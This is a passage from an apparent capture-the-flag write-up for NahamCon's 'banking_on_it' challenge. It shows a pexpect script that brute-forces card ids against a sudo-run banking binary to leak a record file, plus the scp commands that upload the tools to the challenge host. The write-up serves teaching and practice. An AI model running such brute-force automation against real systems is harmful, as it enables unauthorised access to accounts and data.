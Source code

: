 ```
gcc -o gen_customers gen_customers.c && ./gen_customers
```

Use pexpect to automatically try each card id and print the first line from `recordInfo.txt`:

```python
#!/usr/bin/env python3
import sys
sys.path.append('./pexpect')
import pexpect
alphabet = '0123456789abcdef'

for i in alphabet:
    for j in alphabet:
        for k in alphabet:
            card = 'flag{' + i + j + k
            p = pexpect.spawn('sudo /opt/banking/bank')
            p.readline()
            p.sendline('2')
            p.expect('Please input the 8-digit card number:')
            p.sendline(card)
            p.expect('Please input the 6-digit pin:')
            p.sendline('111111')
            p.expect('Activities you could choose:')
            p.sendline('5')
            p.expect('Please enter the pin again:')
            p.sendline('111111')
            p.readline()
            p.readline()
            p.readline()
            print(p.readline())
            p.sendcontrol('c')
```

The remote system where we need to run this doesn't have pexpect or pip (or much of anything) installed, so we need to install pexpect to a local directory and then copy that to the remote system:

```
kali@kali:~/Downloads/banking_on_it$ pip install --target=pexpect/ pexpect
...
kali@kali:~/Downloads/banking_on_it$ tar -cf pexpect.tar pexpect/
```

Copy our generated customer.dat file, pexpect.tar, and solve.py to the system:

```
kali@kali:~/Downloads/banking_on_it$ scp -r -i ~/gus_id_rsa -P 30616 customer.dat gus@challenge.nahamcon.com:~/
customer.dat                                                      100%  512KB 758.8KB/s   00:00
kali@kali:~/Downloads/banking_on_it$ scp -r -i ~/gus_id_rsa -P 30616 pexpect.tar gus@challenge.nahamcon.com:~/
pexpect.tar                                                       100%  430KB 665.8KB/s   00:00
kali@kali:~/Downloads/banking_on_it$ scp -r -i ~/gus_id_rsa -P 30616 solve.py gus@challenge.nahamcon.com:~/
solve.py                                                         100% 1199    50.0KB/s   00:00
```
